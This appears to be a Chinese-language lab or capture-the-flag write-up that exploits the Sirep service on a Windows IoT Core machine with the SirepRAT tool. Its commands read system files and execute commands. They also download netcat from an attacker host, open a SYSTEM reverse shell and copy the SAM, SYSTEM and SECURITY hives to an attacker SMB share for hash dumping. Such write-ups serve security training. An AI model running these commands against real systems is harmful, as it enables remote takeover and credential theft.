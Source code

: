 testsirepsvc.dll 的代码使用 TCP Socket 服务程序监听了29817、29819、29820端口
Windows IoT Core 存在漏洞 

**PoC**
https://github.com/SafeBreach-Labs/SirepRAT
读取系统文件
```bash
python3 SirepRAT.py 10.129.45.14 GetFileFromDevice --remote_path "C:\Windows\System32\drivers\etc\hosts" --v
```

执行系统命令
```bash
python3 SirepRAT.py 10.129.45.14 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c dir C:\\" --v
```

获得 shell
```bash
python3 SirepRAT.py 10.129.45.14 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell iwr -Uri http://10.10.14.50/nc64.exe -OutFile C:\\programdata\\n.exe" --v
rlwrap -cAr nc -lvvnp 2233
python3 SirepRAT.py 10.129.45.14 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\\programdata\\n.exe -e cmd 10.10.14.50 2233" --v
```
shell 的权限是 SYSTEM

#### 从注册表转储 hash
```bash
/usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -user xekoner -pass xekoner  
net use \\10.10.14.50\share /u:xekoner xekoner
reg save HKLM\system \\10.10.14.50\share\system
reg save HKLM\sam \\10.10.14.50\share\sam
reg save HKLM\security \\10.10.14.50\share\security
```

```bash
python ~/tool/impacket-dacledit/examples/secretsdump.py -system system -security security -sam sam LOCAL
```

